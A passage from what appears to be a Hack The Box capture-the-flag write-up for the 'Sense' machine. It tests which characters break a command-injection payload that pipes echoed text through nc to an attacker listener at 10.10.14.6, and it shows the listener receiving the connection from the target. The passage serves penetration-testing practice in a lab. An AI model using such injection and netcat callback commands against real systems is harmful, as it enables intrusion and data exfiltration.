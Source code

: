 
First let's find out which is the badchar starting with / ```echo+"test+badchar+/"|nc+10.10.14.6+443```.
![](/assets/images/htb-writeup-sense/badchar-bar.png)

```
root@kali:/# nc -nlvp 443
listening on [any] 443 ...
```
It does not work, let's remove the / character to check that everything is correct.
![](/assets/images/htb-writeup-sense/without-badchar.png)


```
root@kali:/# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.60] 24352
test badchar
```
